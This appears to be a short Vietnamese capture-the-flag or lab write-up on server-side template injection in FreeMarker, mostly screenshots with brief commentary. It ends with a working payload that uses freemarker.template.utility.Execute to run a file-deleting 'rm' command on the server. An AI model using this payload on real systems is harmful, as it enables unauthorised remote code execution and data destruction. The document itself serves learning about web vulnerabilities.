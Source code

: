 ![image](https://github.com/user-attachments/assets/f0662859-565c-4ea9-b85d-be0a1c7c6dd7)

![image](https://github.com/user-attachments/assets/c058ba2d-f260-4dcf-80c1-ae51ab6567b7)

Đăng nhập vào và test thử chức năng thì thấy template mà server này nó dùng là `FreeMarker template`, tại sao tôi biết thì là vì tôi sửa lại cái này.

![image](https://github.com/user-attachments/assets/83074643-d86a-4e87-ac7f-a06a19e7a6f9)

Đọc docs của template này thì ta biết được format cũng như cách RCE

![image](https://github.com/user-attachments/assets/899bd2e1-3c6f-4432-9940-d7c6fb56279e)

Đó payload nó sẽ như thế, và riêng thằng template này nó có khá nhiều syntax.

![image](https://github.com/user-attachments/assets/921320d2-30b2-4f7c-b1e0-30d032a6c010)

Đó, các loại syntax của nó.

![image](https://github.com/user-attachments/assets/d791c911-e144-4680-ae22-d64c022f66db)

Thành công.

Và đây là payload của chương trình.

```
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

# REFERENCES
[1]. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---basic-injection
